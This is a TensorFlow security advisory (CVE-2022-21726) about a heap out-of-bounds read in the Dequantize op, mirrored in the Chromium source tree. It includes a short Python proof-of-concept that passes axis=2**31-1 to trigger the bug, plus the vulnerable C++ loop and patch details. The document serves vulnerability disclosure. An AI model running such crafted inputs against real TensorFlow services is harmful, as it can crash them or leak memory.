 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-003.md
## TFSA-2022-003: Heap OOB access in `Dequantize`

### CVE Number
CVE-2022-21726

### Impact
The [implementation of `Dequantize`](https://github.com/tensorflow/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/dequantize_op.cc#L92-L153) does not fully validate the value of `axis` and can result in heap OOB accesses:

```python
import tensorflow as tf

@tf.function
def test():
  y = tf.raw_ops.Dequantize(
    input=tf.constant([1,1],dtype=tf.qint32),
    min_range=[1.0],
    max_range=[10.0],
    mode='MIN_COMBINED',
    narrow_range=False,
    axis=2**31-1,
    dtype=tf.bfloat16)
  return y

test()
```

The `axis` argument can be `-1` (the default value for the optional argument) or any other positive value at most the number of dimensions of the input. Unfortunately, the upper bound is not checked and this results in reading past the end of the array containing the dimensions of the input tensor:

```cc
  if (axis_ > -1) {
    num_slices = input.dim_size(axis_);
  }
  // ...
  int64_t pre_dim = 1, post_dim = 1;
  for (int i = 0; i < axis_; ++i) {
    pre_dim *= float_output.dim_size(i);
  }
  for (int i = axis_ + 1; i < float_output.dims(); ++i) {
    post_dim *= float_output.dim_size(i);
  }
```

### Patches
We have patched the issue in GitHub commit [23968a8bf65b009120c43b5ebcceaf52dbc9e943](https://github.com/tensorflow/tensorflow/commit/23968a8bf65b009120c43b5ebcceaf52dbc9e943).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Yu Tian of Qihoo 360 AIVul Team.
